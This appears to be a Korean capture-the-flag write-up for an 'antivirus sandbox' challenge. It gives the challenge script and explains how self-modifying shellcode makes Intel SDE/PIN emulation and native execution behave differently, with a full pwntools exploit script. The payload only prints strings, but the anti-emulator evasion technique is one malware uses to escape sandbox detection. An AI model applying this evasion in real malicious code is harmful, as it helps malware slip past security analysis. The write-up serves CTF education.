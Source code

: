 # pwn-antivirus_sandbox

# Usage
- 2024.06#0

# Concept
- Intel PIN
- Code cache & Self-modifying code

# Writeup

####  chall.py
```python
import subprocess
import os

flag = os.getenv("FLAG")

program = input("Enter your program: (e.g. 23 2a 12)\n")
program = bytes.fromhex(program)

if len(program) > 0x100:
    print("[*] Too long")
    exit(0)

result = subprocess.run(["./intel-sde/sde64", "--", "./runner"], input=program, stdout=subprocess.PIPE)

if result.stdout == b"Safe Code\n":
    print("[*] Sandbox Pass")
else:
    print("[*] Sandbox Fail")
    exit(0)

result = subprocess.run(["./runner"], input=program, stdout=subprocess.PIPE)

if result.stdout == b"Malicous Code\n":
    print("[*] Runner Fail")
    print("Flag: %s" % flag)
else:
    print("[*] Runner Pass")
```

많은 악성코드 솔루션들이 의심 프로그램을 VM, Emulator 등의 샌드박스에서 실행한 이후 이상 행위가 발생하는지 감시하는 방식으로 악성코드를 탐지합니다. 이렇게 악성코드가 탐지되는 것을 막기 위해 악성코드 개발자들은 Anti-VM, Anti-Emulator와 같은 기술을 적용하여 샌드박스 내에서는 정상 프로그램처럼 행동하고 실제 환경에서만 악성 행위를 일으키도록 만들 수 있습니다.

이 문제는 Intel PIN 기반의 에뮬레이터인 SDE 안에서 실행했을 때와 native로 실행했을 때의 동작이 다르도록 하는 Anti-Emulator 기술을 요구합니다. 임의의 쉘코드를 입력 받은 후 SDE 안에서 실행했을 때에는 "Safe Code"를 출력하지만 그냥 실행했을 때에는 "Malicious Code를" 출력하도록 하는 쉘코드를 작성하면 플래그를 얻을 수 있습니다 

PIN을 속이는 방법은 여러 가지가 있을 수 있겠지만, 가장 편리한 것은 Self-Modifying Code를 이용하는 방식입니다. Intel PIN은 실행할 바이너리에서 Basic Block 단위로 Instruction을 Fetch해옵니다. 이후 각 instruction 사이에 SDE에서 사용하는 instrumentation을 삽입한 것을 JIT 방식으로 컴파일하여 실행하는 방식으로 Instrumentation을 구현합니다   
*JIT 방식이 사용되기 때문에 실행 속도가 느려지고, 이에 따른 시간 차이를 이용하는 방식으로 감지하는 것도 가능합니다.

정리하자면 Fetch - JIT Compilation - Execution의 방식이라고 할 수 있습니다. 이때 JIT로 컴파일되는 코드가 Self-modifying할 경우, PIN과 Native 실행의 차이를 만들 수 있습니다. 예시인 ex.py에서 사용한 쉘코드는 다음과 같습니다.

* 쉘코드
1. 2의 nop을 (jmp 4)로 패치함.
2. nop
3. write("Safe Code"); exit();
4. write("Malicious Code");

## Native로 실행할 때
1에서 2를 jmp 4로 패치합니다. 따라서 3의 코드는 실행되지 않고 4가 실행되어 "Malicious Code"가 출력됩니다.

## PIN에서 실행할 때
1-4는 syscall을 제외하면 control-flow가 이어지기 때문에 하나의 basic block으로 인식됩니다. PIN은 1-4를 한 번에 fetch한 다음, JIT로 컴파일하고 실행합니다. 따라서 "Safe Code"가 출력된 이후 프로그램이 종료됩니다.

#### ex.py
```python
from pwn import *
context.update(
    arch="amd64",
    endian="little",
    os="linux",
    # log_level="debug",
    terminal=["tmux", "split-window", "-h", "-p 65"],
)

p = remote("localhost", 11111)
# p = process(["python3", "chall.py"])

block = ""
block += shellcraft.echo("Safe Code\n")
block += shellcraft.exit(0)
block = asm(block)

payload = b""
payload += asm("mov DWORD PTR [rip+8], 0x2e")
payload += asm("mov BYTE PTR [rip], 0xe8")
payload += b"\x90"*5 
payload += block
payload += asm(shellcraft.echo("Malicous Code\n"))
payload = payload.hex()
p.sendlineafter(b"Enter your program:", payload)

p.interactive()
```
